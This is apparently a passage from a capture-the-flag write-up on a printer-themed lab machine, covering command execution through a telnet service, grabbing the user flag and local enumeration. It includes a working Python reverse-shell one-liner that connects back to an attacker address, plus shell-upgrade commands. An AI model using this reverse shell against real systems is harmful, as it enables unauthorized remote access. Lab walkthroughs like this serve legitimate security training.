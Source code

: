 ```console
exit: quit from telnet session
```

## Internal reconnaissance

As we can see from the help message, We are already authenticated in the telnet service and we can execute commands using `exec`.

```console
exec id # uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
```

So we can obtain the user flag.

```console
    exec cat user.txt
```

To work in a comfortable way we will launch a reverse shell. For reference, I like to use [Reverse Shell Generator](https://www.revshells.com/)

```console
exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",7890));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

Once we receive the request we do the treatment as usual.

```console
script /dev/null -c bash
>>> Ctrl+Z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
stty columns 54
stty rows 136
```

### Check important files

In `/etc/passwd` we see no users except root with access to a bash or zsh, we can see that the user is a specific user for the printer `lpd`, with no login.

We do some actions

- Check files in the pwd for the user, `/var/spool/lpd`, we found the `telnet.py` script.
- Check for the processes `ps aux`
- Check for the listening ports `netstat -tnlp`

We see that there is a service listening in the port 631

```console
(Not all processes could be identified, non-owned process info
will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN      1026/python3
tcp6       0      0 ::1:631                 :::*                    LISTEN      -
```
